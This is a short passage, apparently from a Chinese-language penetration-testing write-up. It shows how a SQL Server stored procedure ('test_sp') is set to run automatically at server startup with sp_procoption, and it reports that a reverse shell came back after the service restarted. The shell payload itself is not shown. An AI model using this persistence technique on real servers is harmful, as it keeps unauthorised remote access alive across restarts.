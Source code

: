 我们现在将此存储过程移至启动阶段，因为我们希望它在服务器启动后立即执行

```php
EXEC sp_procoption @ProcName = 'test_sp'
, @OptionName = 'startup'
, @OptionValue = 'on';
```

查询启动中拥有的存储过程，已经添加成功

```php
SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

![image.png](assets/1706232584-9648a88ed7cc71b3af0f485a6537adc6.png)  
将 sqlserver 服务重新启动，成功反弹 shell  
![image.png](assets/1706232584-6fa6b300be4941f24c40a384542f9923.png)  
![image.png](assets/1706232584-e31626a819b23cb3c0984e0e7feec890.png)
